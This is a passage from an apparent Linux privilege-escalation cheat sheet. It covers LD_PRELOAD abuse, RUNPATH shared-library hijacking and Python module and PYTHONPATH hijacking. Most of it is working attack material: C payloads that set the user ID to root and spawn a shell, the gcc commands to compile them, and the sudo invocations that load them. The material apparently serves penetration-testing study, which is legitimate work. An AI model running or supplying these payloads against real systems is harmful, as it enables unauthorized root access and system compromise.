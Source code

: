 void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
2. Compile the library: ```gcc -fPIC -shared -o root.so root.c -nostartfiles```
3. Escalate privileges: ```sudo LD_PRELOAD=/tmp/root.so <binary>```

### Shared objects
View shared objects required by a binary: ```ldd <binary>```  
Inspect RUNPATH configuration: ```readelf -d <binary> | grep PATH```  
If the RUNPATH is misconfigured to allow the loading of libraries from a directory which is writeable by all users, a malicious library can be placed in that directory which will take precedence over other folders.

1. Copy an existing library to the directory.
2. Execute the binar to produce an error message that says which function is required by the binary.
3. Create a script ```src.c``` which includes this function: 
```
#include<stdio.h>
#include<stdlib.h>

void <function>() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
```
4. Compile the script into a shared object: ```gcc src.c -fPIC -shared -o <path to shared object>```

### Python libraries
__Wrong write permissions__  
One of the python modules used by a script may have write permissions set for all users by mistake, allowing it to be edited and manipulated so that commands can be inserted. If SUID/SGID permissions have been assigned to the Python script that imports this module, the malicious code will automatically be included.

Insert malicious code into the module function that is used by the script:
```
import os
os.system('/bin/bash')
```

__Library path__  
Check PYTHONPATH listing: ```python3 -c 'import sys; print("\n".join(sys.path))'```
Show the default installation location of a module: ```pip3 show <module>```

For this exploit, the module imported by the script must be located under one of the lower priority paths listed via the PYTHONPATH variable, and the user must have write permissions to one of the paths having a higher priority on the list.

__PYTHONPATH environment variable__  
Check if user has permission to set environment variables for the python binary: ```sudo -l```  
Change PYTHONPATH environment variable to include a particular directory containing a malicious module: ```sudo PYTHONPATH=<directory>```
